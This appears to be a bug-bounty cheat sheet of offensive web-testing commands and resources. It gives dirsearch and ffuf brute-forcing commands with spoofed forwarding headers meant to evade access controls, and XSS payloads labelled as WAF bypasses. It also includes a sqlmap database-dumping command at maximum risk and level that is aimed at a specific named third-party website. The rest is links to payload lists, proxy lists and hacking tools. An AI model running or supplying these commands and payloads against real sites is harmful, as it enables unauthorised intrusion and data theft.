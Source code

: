 ## Dir Buster

dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1

ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0" -H "X-Forwarded-For: 127.0.0.1" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-Host: localhost" -t 100 -r -o results.json

[www.cspbypasser.com](http://cspbypass.com/)

Passive Url's: https://sawravchy.github.io/archivefinder/

Firefox Extensions:

https://github.com/kevin-mizu/domloggerpp?tab=readme-ov-file

https://chromewebstore.google.com/detail/sessionbox-multi-login-to/megbklhjamjbcafknkgmokldgolkdfig?hl=en

Hackbar: https://addons.mozilla.org/en-US/firefox/addon/maxs-hackbar/



Payloads:

https://github.com/coffinxp/lostools/blob/main/payloads/payloads/xor.txt
 https://tib3rius.com/sqli

 XSS: WAF <details/open/id="&quote;"ontoggle=[JS]>

<details/open/id="&quote;"ontoggle=[JS]>

<details open id="' &quote;'"ontoggle=[JS]>
 
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

 Practice: https://www.bugbountyhunter.com/

 Nuclei Teamplates: https://nuclei-templates.netlify.app/#q=pdteam

 Proxy Chains Socks: https://github.com/TheSpeedX/PROXY-List

 Writeups: https://www.bugbountyhunting.com/

 Encoder/Decoder: https://dencode.com/

Broken Link Hijacking: https://github.com/H4cker-Nafeed/Nafeed-Broken-Link

Burp Extensions: https://portswigger.net/bappstore/b4915681326648b1a12e4059d71bc909

Writeups: https://github.com/reddelexc/hackerone-reports/tree/master/tops_by_bug_type

SQL Map:sqlmap -u 
'https://cutm.ac.in/payu/skill/index.php?id=34' --batch --dbs --threads=5 --random-agent --risk=3 --level=5 --tamper=space2comment -v 3 --dbms  MySQL

Wayback Url: https://web.archive.org

Cyberchef : https://gchq.github.io/CyberChef/